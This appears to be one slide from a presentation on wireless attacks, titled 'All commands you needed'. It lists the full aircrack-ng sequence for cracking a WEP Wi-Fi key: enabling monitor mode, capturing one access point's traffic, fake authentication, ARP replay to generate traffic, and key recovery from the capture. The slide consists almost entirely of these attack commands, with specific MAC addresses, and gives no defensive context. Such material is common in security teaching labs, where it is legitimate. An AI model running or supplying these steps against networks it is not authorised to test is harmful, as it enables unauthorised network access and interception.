

# All commands you needed
airmon-ng start wlan0 (Terminal 1)
airodump-ng --bssid 48:5D:36:06:CF:C8 --channel 6 --write  arp_wep wlan0mon (Terminal 1)
aireplay-ng --fakeauth 0 -a  48:5D:36:06:CF:C8  -h 9C:EF:D5:FE:2E:F3  wlan0mon  (Terminal 2)
aireplay-ng --arpreplay -b 48:5D:36:06:CF:C8  -h 9C:EF:D5:FE:2E:F3  wlan0mon (Terminal 3)
 aircrack-ng  arp_wep-01.cap (Terminal 2)

15